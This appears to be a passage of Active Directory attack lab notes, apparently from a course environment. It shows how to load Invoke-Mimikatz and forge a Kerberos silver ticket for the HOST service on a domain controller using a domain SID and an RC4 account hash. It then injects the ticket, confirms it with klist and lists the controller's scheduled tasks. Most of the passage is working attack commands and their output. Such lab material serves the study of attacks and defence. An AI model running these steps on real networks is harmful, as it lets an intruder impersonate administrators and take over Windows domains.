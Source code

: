 ## Using Similar Commands for Other Services
Similar commands can be used for any other service on a machine. Services include HOST, RPCSS, WSMAN, and many more.

To execute the command for another service, follow the steps below:
1. Import the Mimikatz script:
    ```powershell
    PS C:\Windows\system32> . C:\AD\Tools\Invoke-Mimikatz.ps1
    ```

2. Use the command to access another service:
    ```powershell
    PS C:\Windows\system32> Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /target:dcorp-dc.dollarcorp.moneycorp.local /service:HOST /rc4:82e90bd6e666bc654e50fcbd98e65423 /user:Administrator /ptt"'
    ```

3. Verify again:
    ```powershell
    PS C:\Windows\system32> klist
 ```#0>  Client: Administrator @ dollarcorp.moneycorp.local
        Server: HOST/dcorp-dc.dollarcorp.moneycorp.local @ dollarcorp.moneycorp.local

        PS C:\Windows\system32> schtasks /S dcorp-dc.dollarcorp.moneycorp.local

        Folder: \
        TaskName                                 Next Run Time          Status
        ======================================== ====================== ===============
        Browse                                   7/11/2020 2:33:00 AM   Ready
        CreateExplorerShellUnelevatedTask        N/A                    Running
      ```
